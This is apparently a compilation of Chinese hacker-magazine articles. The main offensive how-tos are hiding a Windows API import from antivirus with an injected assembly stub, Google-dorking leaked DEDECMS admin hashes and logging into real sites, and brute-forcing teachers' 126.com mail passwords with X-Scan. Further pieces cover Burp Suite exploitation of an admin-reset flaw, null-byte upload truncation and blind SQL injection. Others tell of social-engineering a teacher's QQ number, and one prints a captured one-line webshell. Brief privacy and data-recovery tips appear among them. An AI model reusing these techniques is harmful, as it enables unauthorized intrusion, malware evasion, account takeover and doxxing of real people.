到这里应该可以明白整体思路了，我们要往文件中将ShellExecuteA这个API的内存指针给抹掉，这样工具就不会查到导入表中有调用此API，但是程序还是需要这个API的，所以我们在程序启动前添加一段命令，恢复该API函数的内存指针即可。同样在OD中按下Ctrl+N的“模块中的标签窗口”，找到ShellExecuteA这个API的内存指针地址是005048A0。细心的你会发现，这个内存地址就是用Stud_PE查看的RVA偏移地址加上基地址00400000。

下面我们要做的便是写一串汇编指令，使其在程序执行到原入口点之前完成导入表函数内存指针的恢复操作。首先，在程序中找一段无用的空间，只要足以写下命令即可，如果空间不足，可以用zerodat增加区段。这里直接找现成的空间，在004FE2A0处发现大量的00，但在图5中，这段00已经被我无情地征用，但从上面的00还可以看到它的遗迹……呵呵。双击此处开始写下面的汇编指令：

下面一点一点进行分析：第一处：pushad与004FE2DD处的popad对应，为了保持环境，使得跳转回原入口点时寄存器等恢复程序载入时的状态。第二处：这里有点忽悠人的感觉，首先Call调用的只是004FE2A6的命令，仿佛没有必要，但pop ebp又是什么意思呢？这得看Call指令实现过程了。在执行Call指令时实际做了两件事：Push EIP，然后转移。EIP对应的是下一条指令的位置，故执行Call后，004FE2A6被压入堆栈。这样pop ebp就有解释了，将压入堆栈的004FE2A6弹出到ebp寄存器中。跟着，sub指令将地址减去6，得到004FE2A0，正是我们修改后的程序入口点位置。代码这样设计有什么作用呢？其实作用的确不大。第三处：将EBP寄存器存储的地址存放到EBX，add ebx, 84C6得到的正是00506766，也就是shell32.dll的内存地址。

第四处：将ebx中的地址压入堆栈。作用很简单，为LoadLibrary的执行提供参数。第五处：类似的代码使得ebx指向LoadLibrary内存指针，接着Call调用了LoadLibrary，从而得到shell32.dll的模块句柄，默认返回参数存放在EAX寄存器中，因此使用mov edi,eax将得到的结果保存到EDI寄存器中。第六处：和上面类似的代码，利用GetProcAddress得到ShellExecuteA这个API指向的内存地址，这里得到的这个地址正是本来正常后将要被我们隐藏的API内存指针指向的地址75F89BA5。

第七处：经过上面一番折腾，搞定了ShellExecuteA的地址，下面就是“修复”被隐藏的内存指针的过程了。add ebx, 6600后得到005048A0，也就是那个内存指针的位置。如果一切正常，没有我们的干预，内存指针存放的应该正是75F89BA5，但我们要隐藏，所以事先已经将这个内存指针给清空为0了。这样，我们就用mov dword ptr ds:[ebx],eax将EAX寄存器中存放的75F89BA5还给普通的内存指针。完成了上面的步骤，就是恢复环境，跳转向程序的原入口点004FE218正式执行咯。

## 五、手工隐藏

为什么前面说是半成品呢？因为我们还没删掉对应的内存指针啊。现在我们已经知道，要隐藏的内存指针地址是005048A0，用偏移量转换器OC查看一下发现对应的文件偏移地址是001048A0。将其对应的四个字节填充为0。这样，内存指针被清理了。用Stud_PE和OD的参考都不会发现有这个API了，但是程序调用ShellExecuteA执行外部程序的功能并无异常。更进一步检查会发现，载入已经运行的程序，依然还是有这个API的，也就是说，我们实现的隐藏只是在程序未启动时的隐藏。

## 六、延伸

这里的隐藏仍然有一定的局限性，比如不容易实现大范围的隐藏，而且杀软定位到某个导入表函数时，这种方法比较适用。对于大范围的导入表移位，通过ImportREC的导入表重建功能就可以实现。简单的解释过程就是：使用LordPE得到导入表的RVA和大小，在ImportREC中填入后单击获取导入表，删除无效指针，修复转存一下，然后用C32Asm找到先前的导入表用0填充即可。此外，对于导入表的加密，我们还可以换一下方法，用异或算法将内存指针处先异或一遍得到密文，然后同样在程序启动前加一段代码进行解密，这样就免除了调用LoadLibraryA和GetProcAddress找API地址的麻烦。当然，异或的方法在导入表免杀以外依旧是适用的。尝试总结一番，必然有自己的收获。文末，感谢菜客朋友，没有他也难有此文。

## 通过微博得到实习老师QQ号

黑夜红云

要说起此次社工的原因，要从前两天我们班来了个实习老师说起。班上同学强烈要求我把实习老师拉进班级群里（图1），可是毕竟老师是刚来的，不是很熟，也不好意思问老师QQ，就想到了社工这个方法。

毕竟是身边认识的人，当然就知道他的名字了“何X志”（因为涉及些个人资料和隐私问题，所以图片及文字部分进行隐藏）。知道名字大家一般都会先想到通过QQ校友进行社工。可是腾讯也不是傻瓜，都对QQ号进行了加密（图2），但是除了QQ校友外还有个实名制最多的地方——腾讯微博。

于是我就想碰碰运气，通过微博搜索“何X志”看看有没有结果（图3）。结果出现了两名用户，通过广播的查看最终排除了我们的“社工嫌疑人”，而且找到其中一条对我们有用的广播（图4）。从下方的来源提示可以看出是从QQ空间分享出来的。要注意的地方是链接到的地址并不是他本人的QQ空间，而是他分享的对象的。

不过我们可以在日志下方的“本文最近访客”中看到最近这篇文章的访客记录（删除了记录除外）。因为这个空间的访问量比较小，所以能确定在我之后的这个就是我们实习老师了（图5）。

点开后发现没有访问权限~~o(>_<)o~~（图6），到嘴的肉怎么能就这么没了……果断后退，把鼠标放在QQ名字上不要点击，在下面地址栏显示的链接就是已加密的QQ号了(^o^)/（图7）。此次社工到此结束。

小结：总的来说此次社工没什么难度，主要因为实习老师在网络上的安全意识不够，在微博上用真名注册，而且在看完日志后没删除访问记录，而给我留下了社工的机会。由此看来大家在防社工方面要提高安全意识，尽量不要在网上留下个人信息；在社工方面应该留心观察你到手的任何信息，大胆猜测，细心分析。最后要感谢小威同学帮我一起完成这次社工。

## 小端口，大作用

## ——深入挖掘TCP 139端口的“潜力”

郭建伟

大家知道，TCP 139端口在Windows的网络设置中占有重要地位，因为TCP 139端口承担了文件共享的任务。实际上，TCP 139端口是在系统安装了NETBEUI协议后才开放的，当然，在安装了该协议后，Windows还会开放UDP 137和138端口。开放了TCP 139端口虽然带来文件共享的便利，但是也会带来一些风险。例如其他人可以通过该端口来刺探本机的一些重要信息。在CMD窗口中执行“nbtstat -a 61.159.56.91”，就会得到地址为“61.159.56.91”的电脑的一些敏感信息。例如该机的名称、工作组的名称和模式，以及MAC地址信息等。这只是利用Windows自带的工具进行探测，如果使用专业的扫描工具（例如Superscan、X-Scan等），还会得到目标机更加全面的配置信息。此外，TCP 139端口和Windows的Messenger服务有着密切的联系，在启用了Messenger服务的电脑之间，可以使用“net send IP 发送的消息”命令来传递信息。在信息发送完成后，执行“netstat -an”命令，可以看到该服务发送信息使用的端口就是TCP 139端口。

和PC2建立连接，执行的命令为“net use \\192.168.0.2\ipc$ “123456” /user:”hello””，其中假设PC2上的用户名为“hello”，密码为“123456”。连接建立成功后，在PC1上使用“netstat -an”命令查看端口情况，在连接列表中可以看到，139和445端口同时开启，默认的连接端口不是139，而是445。看来要想让139端口发挥威力，必须先封闭445端口。在PC2上打开注册表编辑器，在其中展开“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters”分支，在右侧窗口中建立一个DWORD类型、名称为“SMBDeviceEnabled”的键值名，并将其值设置为“0”，之后重启电脑，PC2上的445端口即可关闭。之后再次在PC1上使用IPC$管道和PC2建立连接，然后观察端口列表，可以发现Windows 2000才真正使用139端口建立了网络连接。实际上，Windows 2000/XP之间建立网络共享连接时，首先使用的是445端口；当445端口连接失败，才使用139端口进行连接。当然，如果使用Windows 98和Windows 2000/XP建立网络连接，就会直接使用139端口创建连接。实际上，在Windows 2000中实现资源共享，必须满足开启Netlogon服务、开启文件和打印机共享、开放139和445端口等要求。前面谈过，使用Messenger信使服务在网络中发送信息，需要使用到139端口。假设将PC2上的139端口关闭，然后从PC1上使用“net send”命令向PC2上发送信息，PC2能否收到呢？答案是可以的，但是PC2要等待十几秒的时间。实际测试表明，信使服务还使用到了其它的端口，是不是使用到了445端口呢？将PC2上的445端口关闭，但是信息发送仍然成功。此间经过对端口列表的观察，发现在开放的端口中，只有135端口可以担当信使发送服务，于是将Windows 2000系统目录“Winnt\system32”中的“rpcss.dll”使用UltraEdit打开，在其中寻找“3100330035”，并将其改为“3000300030”，然后保存文件，之后重启电脑后Windows的135端口就被关闭了。之后重新从PC1向PC2发送消息，就会发现信使服务无法正常发送信息了。看来信使服务默认使用139端口发送消息，如果失败的话，就会改用135端口发送消息了。

### 如何关闭TCP 139端口

为了避免TCP端口暴露本机的信息，可以解除NETBEUI和TCP/IP协议之间的绑定，然后删除NETBEUI即可。在Windows XP中可以打开本地连接窗口，在“常规”面板中双击“Internet协议（TCP/IP）”项，在打开的窗口中点击“高级”按钮，在“高级TCP/IP设置”窗口中打开“WINS”面板，在“NetBIOS设置”栏中可以选择“禁用TCP/IP上的NetBIOS”项，即可关闭TCP 139端口。当然，关闭了NetBIOS端口后，会造成在网络邻居窗口中无法显示网络中的其它计算机，这是因为本机的NetBIOS端口和其它计算机上的NetBIOS端口无法交换信息造成的。此外，关闭了TCP 139端口，就无法启用资源共享功能了。

### 实践解析TCP 139端口

这里假设在局域网环境中，有PC1（IP为“192.168.0.1”）和PC2（IP为“192.168.0.2”）两台电脑，都安装了Windows 2000系统，现在在PC1上使用IPC$（Internet Process Connection，即“命名管道”）。

## 菜鸟小试
### “DEDECMS备份数据路径泄露”漏洞
羊晓东

### 引子：
慵懒了一个假期，开学之后特别忙碌，小菜几乎把自己的专业给荒废了，自感非常内疚。终于这天得闲暇，遂穿梭于各位黑客大大的博客，看看最近一段时间是否又有新漏洞被爆。很快，小菜就发现了一篇两天前刚刚发布的漏洞信息——“大量DEDECMS站点备份数据路径泄露”（http://www.waitalone.cn/post/1071.html），最原始的漏洞发布地址是http://www.wooyun.org/bug.php?action=view&id=4687。

开始动手测试吧！结果第一个就失败，晕。点击第二个，360极速浏览器马上就打开了一个TXT文件——http://www.fxxxxy.com/data/backupdata/dede_admin_0_bb2448aa7e09e17c.txt，显示出对应的网站有三个admin账号（如图2）：buffalo-2-b53419ab95507cdf127、Test-bcd4621d373cade4e832和Zpmy-12816df80376c6ec4cfc。


图2

#### 一、Google搜索，获得admin与“MD5”
说到DEDECMS，恐怕大家都是非常熟悉了：织梦网站系统。据说安装使用量已经达到六七十万，目前的最高版本是V5.7（2011.12.27发布）。正所谓是“树大招风”，近几年DEDECMS被爆出漏洞的信息也是层出不穷，堪比“洞网”之“动网”。像2008年被爆出的URL编码漏洞，由于joblist.php、guestbook_admin.php等文件中未对orderby参数进行过滤，导致他人查询得到网站数据库的管理员账号及密码等敏感信息（有专门的利用程序，可经过简单的几步操作就得到网站的WebShell）；还有像V5.6版本的plus/advancedsearch.php任意sql语句执行漏洞、GBK SQL注入漏洞、嵌入恶意代码执行漏洞、RSS注入漏洞……就像Windows操作系统一样，漏洞多，说明其用户量大，大家是比较认可的。不过，漏洞一经爆出，使用DEDECMS的网站就非常危险了，官方要努力哈！下面，大家就跟随小菜一起来探一探这个“备份数据路径泄露”漏洞的深浅吧。

#### 二、20位“伪MD5”与先行者“马越”
粗心的小菜一开始并没有注意，直接复制“MD5”加密密码去破解，结果被提示“请确认是否是标准的MD5数据！”，晕。明明就是一串MD5加密密码啊，怎么会不是标准格式呢？仔细一数，乖乖，20位（标准的MD5密码是16位或32位）！还是问问Google大叔吧，原来，在保存织梦管理员信息的dede_admin数据库表中，的确存储了20位的MD5密码，DEDECMS在这儿做了点儿小动作（具体代码自己查），而破解方法非常简单——去掉这个20位伪MD5密码的前三位和最后一位，剩下的就是标准的16位MD5加密密码了。也就是说，我们只须从第四位开始截取，一直到倒数第二位终止即可。


图1


图3

按照“大量DEDECMS站点备份数据路径泄露”一文的“最高指示”，小菜先用Google来搜索关键字“inurl:backupdata*dede_admin”，其中的“backupdata”就是DEDECMS备份数据关键字。结果，0.07秒，Google非常给力地搜索到了313个结果，0.07秒，都是些“INSERT INTO `dede_admin` VALUES('1','10','admin ...”的形式（如图1）。

OK，再次开始MD5密码的破解，结果前两个都出来了，分别是chair和test，第三个是收费记录。还记得DEDECMS的默认后台么？直接在网站域名之后添加“/dede”，出现管理员登录的界面；输入账号、密码和验证码，登录成功（如图3）。WebShell就不拿了吧（这不是撰写本文的主要目的），小菜很意外地在“附件数据管理”中发现第一条记录不正常：文件标题是“aa”，文件大小是10.3K，上传时间是2012.02.22（13:14）。


虽然文件类型显示是图片格式，但“aa”这样的文件标题起得也太随意了吧，根本不像是管理员添加的，倒像是上传的“小马”；时间也对，正好是该漏洞刚刚被爆出后的第二天。是骡子是马，拉出来遛遛！

点击打开，呵呵，果然是个马！链接地址是 `http://www.fxxxxy.com/uploads/allimg/120222/3_1314501821.php.jpg`，浏览器显示出了“GIF89a”文件头（上传内容为木马的伪图片文件以躲过系统对图片格式的检测）；最后部分有一句“`<%eval(request(0))%><%@ Page Language="Jscript"%><%eval(Request.Item["0"],"unsafe");%>`”则彻底说明了问题，很明显的“一句话木马”呀，登录密码就是“0”（如图4）！不用多说了，看来随后待检测的若干 DEDECMS 网站会有不少中招者的，继续。


#### 三、众多的“被爆”者与“落马”者
根据 Google 的搜索结果，小菜很快就得到了很多被爆出管理员账号与 MD5 密码的网站（如图5），简直是一爆一个准啊！其中，小菜也发现了不少根本不用破解的 MD5 密码，那就是传说中的“admin/admin”式，对应的 MD5 加密密码是“7a57a5a743894a0e”。


值得一提的是，一些网站仍存在非常低级的目录暴露漏洞，可以随意访问甚至下载到其它一些数据（如图6）。比如有一个“XXX人才网”（`ftp://zhaoxxxxzuo.org/fang/data/backup-data/dede_admin_0_8c64ade4c9cfcfe9.txt`），这个 FTP 不仅目录暴露大量文件，而且敏感信息风险极高。这个 FTP 不仅目录暴露出大量的 MDF 文件（SQL Server 数据库文件），而且可以直接点击就下载（如图7）；若干 GB 的账号信息啊，想必其中保存的是求职者真实姓名、身份证号码及联系方式等，想想就令人不寒而栗哈。


就像上一步中遇到的那个先行者一样，小菜在之后的测试过程中同样也发现了不少“落马”者——要么挂马，要么上黑页（如图8），太不厚道了。看来，一个漏洞刚刚爆出时很快就会有下手的哈。另外，小菜还发现：中招的大多都是整形医院、旅行社或一些企业网站，但其中竟然也有信息公司和网站建设服务者！看来自都是一套模板惹的祸。至于修补方法，找官网补丁了；不过，大牛直接给出了一个模糊的修复方法——`robots.txt` 做好限制，是否有效，自行验证。

### QQ社交防社工
黑夜红云

说起有关QQ的社工估计很多人的第一反应就是QQ校友，这是正常反映因为我们经常能从QQ校友上获取到大量的信息，不仅有常见的生日性别等信息，甚至还有真实姓名、住址、和照片。所以我们一定要花点心思对QQ校友进行一些设置以保证我们个人信息的安全。如果忽视的话借用某大牛说过的一句话就算：“被人社工的都不知道是怎么死的”。废话说了一堆，下面就进入正题。

#### 第一式 易容术


图1

易容术在一些小说或者电影中常常有关于易容术的描写，常常是转身之间变成为另外一个人的容貌。而QQ校友之所以成为社工的重点之一就在于在注册的时候被要求使用真实姓名和真实的照片，而且用网名和一些非人像类的图片十有八九是没法成功的。所以我们在注册完以后应该点击上方的“设置”里的“编辑资料”给自己来个易容术。（图1）这时候的姓名已经可以随便填写了（图2）然后去百度随便找张帅哥美女的正脸当头像。注意不要用非人像和含有多人的头像，因为这样还是没法通过审核，会发放问号头像的。（图3）（其实问号头像更防社工，只不过不美观而已）。易容后效果如图4。


图2


图3


图4


图5


图6


图7


图8

#### 第二式 闭关大法
进入“设置”中的“设置隐私”找到“互动搜索”将“搜索菜单方式”改为“不允许别人搜索到我”（图5），因为校友的社工肯定要先找到你的主页才有的社，这样一来就算有你的名字他也找不到你的校友主页了，只能从别的地方入手了。至于其他的选项根据自己的情况设置为“仅自己可见”就行了如（图6）（图7）（图8）。


#### 第三式 与世隔绝
最安全的方法是什么？当然是未开通校友了。但是已经开通了校友怎么办？没关系，腾讯提供了暂时关闭的业务（图9）在设置里找到账号管理（图10）然后随便打两个勾输入密码就能暂时注销校友业务了，想玩的时候再次开通就行了。


### 数据丢失也能强力恢复
大家都有数据丢失的情况，这是一件很悲剧的事，自己很悲剧的要重新工作，工作进度肯定慢了，这样一来还得遭BOSS攻击。真乃硬盘有价，数据无价啊。现在就教大家如何来强力恢复数据。

界面如图1。我们可以看到有很多选项可以选择的，有高级恢复、删除恢复及格式化恢复等。

如果我们的文件只是简单的被删除的话，我们直接选择删除恢复即可。待Easy Recovery扫描完成后提示我们需要注意存放被删除数据的硬盘不能有坏道。建议大家准备好另一块硬盘来保存恢复的数据。之后Easy Recovery出现选择分区的窗口，我们找到被删除文件的分区并选择。这里我们需要注意的是有时候C、D、E盘这些分区可能会错乱，我们可以在桌面的计算机图标上点击右键，选择管理→存储→磁盘管理中判断（如图2）。

#### 一、Easy Recovery
数据恢复软件首选是Easy Recovery。只看名字便能知道，这款软件是很适合菜鸟使用的，但是简单却也强大。打开程序，选择好了分区便可以点击下一步了，等上片刻让Easy Recovery去扫描丢失的文件。扫描完成之后会出现如图3所示界面。我们勾选上需要恢复的文件，再次点击下一步。在出现的窗口点击“浏览”（如图4），选择我们保存恢复文件的路径，这个路径是不能与欲恢复文件的分区相同的。接下来再点一次下一步，我们的文件便开始恢复了。Easy Recovery的恢复速度还是不错的，只要不是太大的东西，都不用很久的，像我恢复12MB的文件只用了23秒，相对其他数据恢复软件还是很快的。


图3


图4


图5

一般我们使用Easy Recovery的删除恢复和格式化恢复便可，但有些时候我们也需要用到Easy Recovery的高级恢复及原始恢复。比如说过滤我们不需要恢复的文件，就比如说我们恢复一个系统盘，里面会有许多垃圾文件。难道说我们也需要恢复它们嘛？肯定是不用的啊。我们在使用Easy Recovery的高级恢复时，在选择好分区后，先别着急点下一步。先进高级选项中进行设置（如图5），这样我们恢复文件的效率会大大提高。

我们可以在高级选项中选择欲恢复文件所处磁盘使用的文件格式，筛选不必要的文件，并且可以指定扇区。但是指定扇区建议大家不要随意更改，可能会出问题的。

如果说我们的磁盘的文件格式从NTFS转换到了FAT32从而导致了文件的丢失，这时候我们就需要用上Easy Recovery的原始恢复了。原始恢复是直接从硬盘中读取DATA来恢复的，自然速度比起其他恢复是更慢的。同时Easy Recovery还有其他一些功能的，比如说文件修复功能，如图6。我们在一些文件被破坏的时候就可以用上了。


图6

#### 二、FinalData
这款软件更适合高手及时间充足的人来使用，FinalData在恢复数据的精确性是Easy Recovery是无可比拟的，但同时付出的代价便是漫长的等待时间。


图7

打开FinalData，界面如图7。在选择需要恢复的磁盘或分区后，在工具一栏会提供给我们更多的选择去选择以便于我们恢复数据（如图8）。但是速度真的会很慢，10GB的文件恢复起来可能需要五六个小时。在图7中，还有一个“查找格式”的按钮，我们可以用它查找不同的分区格式。但是使用时需要考虑清楚，我们是否真的需要如此精确的文件恢复，不然的话会花去成倍的时间的。


使用FinalData还有一个一个好处那就是选择恢复文件更为快捷，使用Easy Recovery的话，构建文件列表都需要一段时间。而FinalData可以在右侧的列表中直接选择恢复，不必等待文件列表创建。

以上介绍的两款软件各有千秋，在关注点各不相同。我们使用好这两个软件的话便是可以成功解决大部分文件丢失的问题的。

图8

### 校园黑客行为之弱口令之痛
Evan

现在人们的安全意识确实有很大的提高，但是并非所有人都懂的。不然也不至于闹出局长微博开房的笑话来了，今天我就对某学校来进行一个测试。看看学校的老师们的安全意识有多高呢。

最近CSDN被拖库，网上便开始疯传一份程序员最爱的密码的榜单。其中不少是弱口令，123456789、123456及11111111排在榜单的前三。而且不少程序员使用手机号码作为密码，这样是很容易被社工的。其他也有使用生日来作为的密码的。这些在一定程度上都可以定义为弱口令。学校是否也有弱口令的问题呢？答案是肯定的。


图1

随着信息技术的发展，一切都跟着改变了。还记得在微博没有普及之前，各大电视节目都是用手机短信来与观众互动的。如今，微博遍地开花。学校亦是如此，盲目跟风，个个学校都开通了网站，论坛。但这些网站不仅做工差，而且又没有多少人访问，内容也少之又少。这样的网站存在有什么意思么？

现在我们不谈网站，来看看老师们的邮箱安全性如何。怎么获取老师们的邮箱这便需要用到社工技术了，这里不谈社工，以后会有文章专门来探讨社工在生活中的妙用。我已经弄到一部分老师的邮箱了，如果你手上有一个老师的邮箱，可以进入邮箱的通讯录中去寻找找到其他老师的邮箱，如图1所示。我们可以尝试导出通讯录，在转入页面（如图2所示）选择CSV格式即可。点击“确定”后提供给我们CSV格式的通讯录下载，我们待下载完成后，用Excel打开，按不同邮箱分开来并取用户名保存为txt文件。需要做到如图3所示的样子。


图2

```text
root
user
ftp
anonymous
guest
```

图3

好了，我们现在需要按照不同品牌邮箱来获取不同品牌邮箱的POP3服务器的IP来进行弱口令探测。POP3、SMTP和IMAP都为邮件协议，我们一般选择POP3及SMTP协议来进行探测。我选择的这个学校都是用126邮箱的，那我们就来获取126邮箱的POP3服务器的IP。我们打开命令提示符，输入ping pop.126.com，获得反馈信息（如图4），得知服务器的IP为123.125.50.23。


图4

### 傻瓜黑客
准备工作就都做好了，我们现在开始来扫描。打开X-Scan，进入参数设置页，如图5所示。


将服务器IP填入指定IP范围，注意如果有多个IP的话，请用逗号分隔（必须是英文的逗号）。接下来便是选择扫描模块了，我们这里只保留SMTP及POP3，如图6所示。接下来就是要扩充下X-Scan自带的用户名列表文件及弱口令库了，用户名列表文件为dat文件夹下的mail_user.dic，弱口令库为dat文件夹下的weak_pass.dic。我们只需要用笔记本打开并添加我们准备好的用户名进去再保存就好了。同时我这里将CSDN里常用密码都添加了弱口令中。

点击X-Scan主界面上绿色的开始按钮，便会开始扫描了。有个问题值得注意，就是如果你尝试的次数过多的话，服务器会自动断开连接，X-Scan会停止工作。这时候我们需要将已经探测完成的用户名排除出用户名列表，等上一会儿再点击开始按钮。

我添加的用户名不多，片刻功夫便得到了扫描结果（如图7）。弱口令问题真的很严重，又或者说老师们真是太有默契了，就连密码差不多都是一样的。本文的目的只是提醒人们要增强安全意识，不要等到出问题了再来补救。还有希望叉子们不要用黑客技术去做些违法的事情，自由才是黑客的真谛。

```text
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
[pop.126.com]: 发现POP3弱口令 ********/123456 (pop.126.com:110)
```

图7

### 抓包利器，你可以拥有


相信很多叉子都知道上传漏洞吧，上传漏洞的成因一般是代码作者没有对提交的数据进行检验或者过滤不严，可以直接提交修改过的数据绕过扩展名的检验。而一般的上传漏洞除了利用IIS、nginx等服务器自身存在的漏洞之外，基本上都是通过抓包和伪造数据包来上传非法文件。而用的最多的软件应该是WSock-Expert.exe配合NC或者明小子之类的软件进行攻击。今天在这里给大家介绍另外一个抓包截断上传利器——burp suite。

burp suite这个神器可不只是有上传截断功能哦，burp suite是由portswigger开发的一套用于Web渗透测试的集成套件，它包含了spider、scanner、intruder、repeater、sequencer、decoder、comparer等模块，每个模块都有其独特的用途，这些模块之间有大量接口可以互相通信。

由于软件是运行在Java环境下的，所以要使用这个工具必须先安装JDK，JDK网上都有集成安装包提供下载。安装完成后执行命令java -jar -Xmx1g burpsuite_pro_v1.4beta.jar（我使用……）的版本是 Burp Suite Pro v1.4 beta 版）命令执行完毕之后程序就跑起来了，第一次运行需要注册，注册码我会在论坛上面发布的。程序运行后如图1所示。

首先在 Proxy 选项卡下选择 Options 进行初始化设置。在 Proxy Listeners 表单中设置监听端口为 8080，当然端口被占用的情况下也可以改为其他的端口。设置完毕之后，Burp Suite 就相当于是一个本地的代理服务器，我们在浏览器的代理设置中添加这个本地代理，我以 IE 浏览器为例，在“工具——Internet 选项——连接——局域网（LAN）设置——代理服务器”的地方填写本地代理 127.0.0.1，端口填写刚刚设置的 8080，如图2。


图2

设置好代理服务器之后，在 Burp Suite 的 Proxy 选项卡下的 Intercept 菜单中，可以看到 Intercept off 按钮，点击后会变成 Intercept on，这就意味着软件开始工作了，IE 浏览器的所有数据都会经过 Burp Suite 这道关卡。这里就以前段时间刚爆出来的将乐人新闻系统任意添加、修改管理员账号漏洞进行演示。

在此感谢版主羽人的鼎力支持。漏洞细节是由于将乐人新闻系统的 mofei_admin_save.asp 未验证权限，直接获取从外部提交的 use 跟 pass 参数添加进 admin 表中，漏洞代码如下：

```asp
<!--#include file='conn.asp'-->
<!--#include file='md5.asp'-->
<%
use2=request.form("use")
pass2=request.form("pass")
pass2=md5(pass2)
if use2<>"" or pass2<>"" then   '判断用户名或者密码是否为空
%>
```

```html
<p></p>
<p></p>
<p></p>
<table border="0" cellpadding="0" cellspacing="0" width="600" align="center" bgcolor="#FFFFFF">
<tr>
<td height="25" background="mofeimg/login_bg.gif">
<p align="center"><b><font size="3" color="#FFFF00">娱乐二中</font></b></td>
</tr>
<tr>
<td height="30">
请<a href="javascript:history.go(-1)">后退</a>填写完整资料!
</td>
</tr>
<tr>
<td height="30" bgcolor="#f9f9f9">
<font color="#FF0000">您的用户名、密码可能为空!</font>
</td>
</tr>
<tr>
<td height="30">
...
</td>
</tr>
</table>
```

```asp
</td>
</tr>
</table>
<%
else
Set rs = Server.CreateObject("ADODB.Recordset")
'如果接收的用户名或者密码不为空，直接 update 管理表
sql="select * from admin"
rs.open sql,conn,1,3
rs("username")=use2
rs("password")=pass2
rs.update
rs.close
response.redirect("mofei_admin_edit.asp")
end if
%>
```

构造一个表单，写一段代码然后提交到漏洞页面。今天我们不用那么麻烦，直接用 Burp Suite 神器来完成整个漏洞利用过程。首先像本文开始所示设置好浏览器的本地代理，然后打开 `http://localhost/mofei_login.asp`，随便填写账号密码之后提交，软件顺利地截获了提交的数据。此举还在获得一个 POST 的数据包供我们修改。如图3。

我们依次选择 Proxy 选项下的 History 菜单，可以看到我们提交的 POST 包，右键选择 Send to Repeater，如图4：


图4


图5


图6


图3

因为这个页面没有进行用户权限认证，如果我们从外部提交 `use` 跟 `pass` 这两个参数到这个页面的话，就可以成功地修改管理员的密码。那这两个参数该如何提交呢？也许很多人会自己构造表单之后提交。

之后转到 Repeater 选项卡，在这里我们可以任意构造自己的数据包了。我们在 Headers 里将 POST 的目标地址改为系统的漏洞页面 `/mofei_admin_save.asp`，然后点击 Go 按钮，如图5。软件下方的 Response 返回信息提示 `HTTP/1.1 302 Object moved`，其实这不是失败了，而是页面本身的页面转向问题。其实到这里系统管理员的用户名和密码已经改为了我们刚才随便填写的那个账户和密码。接下来测试登录，用户名密码都填上刚才我们随便填写的 aaa，点击登录，额……似乎页面卡住了……忘了说在我们完成了一系列操作之后，要记得把 Burp Suite 的 Intercept on 按钮点击使其变回 Intercept off，也就是不截取数据包，否则我们每次都要点击旁边的 Forward 按钮才能让数据通过哦。取消掉拦截数据之后我们可以看到，已经可以成功使用刚才随便填写的 aaa 账号登录到系统里了，如图6。

由于现在存在上传漏洞的系统也比较少了，我一时也找不到合适的演示，在这里就大概地说说如何利用上传漏洞进行截断上传木马吧。首先程序依旧是像本文开篇一样设置好，然后在 Proxy——History 的表格里找到自己上传的那个 POST 数据包，选择 Send to Repeater。经典的上传漏洞中是通过修改文件名为 `xxx.asp `，注意 asp 后有个空格。在 Burp Suite 里是在 Raw 选项卡下找到并修改文件名，然后在 Hex 选项卡里找到我们修改后的 `xxx.asp`，之后把空格的 16 进制编码 20 改为 00，最后点击上面的 Go 按钮就可以了。这个神奇的好处就是不用我们自己修改文件的大小，因为传统的方法还要由于文件名改变的缘故去修改文件大小，最好还要用 NC 等工具提交。而 Burp Suite 可以自动修改文件大小，一步到位哦！

除了文中提到的功能，Burp Suite 还是一个优秀的 Web 爬行工具和扫描器。在抓包完成之后，我们选中 Target 菜单下的 Site Map，可以看到和目标站点存在链接的所有网站。如图7，右键选择我们要扫描的站点；可以看到有三个选项：Spider this host、Actively scan this host 和 Passively scan this host，分别代表爬行目标站、主动扫描和被动扫描。首先点击 Spider this host 爬行目标站，如图8。

可以看到程序在努力地运行着……如果爬到一半不想爬了，就取消掉 Spider 的勾选即可。爬到一半也许会出现这样的对话框，如图9，意思是那些需要验证身份的页面。如果是白盒测试的话我们可以填写用户密码，程序就可以继续爬行那些页面了；当然黑盒测试中我们在不知道用户名密码的情况下也可以忽略掉它。当页面爬完之后，我们可以选择 Actively scan this host 或者 Passively scan this host 进行进一步的扫描。在主动扫描里一开始要进行如下设置，如图10。


第一个选项就是去除重复的页面，最下面的选项就是去掉指定后缀的文件。这样的话可以让扫描的效率更高。不一会儿我们就可以在 Scanner 菜单下的 Results 看到扫描结果了，如图11。


可以看到目标站还有注入漏洞，经过手工测试漏洞确实存在。


图12

Passively scan this host 被动扫描则是自动扫描预设的连接，相关设置如图12。Passive Scanning 中可以自定义扫描的类型。在这里就不演示了，有兴趣的友子可以自行尝试。

碍于篇幅原因，Burp Suite 这个神器的其他功能就不一一介绍了，各位友子可以慢慢地去挖掘。最后给大家透露一点点这个神器的高级用法，就是在 SQL 盲注中有种方法是通过二进制的按位与操作来查询字符某一位是 1 还是 0，如果返回是真则该位是 1，反之为 0。大致的语句构造是 `xxx.asp?id=1'and ascii(substring(system_user,1,1))&128=128--`，因为 128 的二进制数是 10000000，以此类推 64 是 01000000。

假设最后得到的位串 01110011，即十进制的 115，在 ASCII 表里对应的字符是 s。这种并行的查询极大地提高了注入的效率。而手动去构造这些当然还是很累的，可是 Burp Suite 就可以完美地解决这个问题。至于如何去实践，各位友子可以去慢慢发掘咯~~

### 木马跳板上线，隐藏你的真实上线地址

Twilight

我们都知道，在做渗透测试时，为了安全，都会先挂上代理（如 VPN、SOCKS5 等），再去开始我们的活动。越是危险的目标，所需要的代理也越多，有时候甚至需要 3 重以上的跳板才能保证相对的安全。但是有一种工具却是无法在常规代理下工作的，那就是——木马。

大多数情况下，我们在服务器上开启的 VPN 分配给每个连接客户端的都是自己定义的 IP 段，比如 169.254.1.0/24 之类的，这些 IP 在外网是无法访问的，也就是说木马无法通过你 VPN 的地址来上线。比如笔者接上自己的 VPN，内网地址便是 169.254.1.8，如图1：

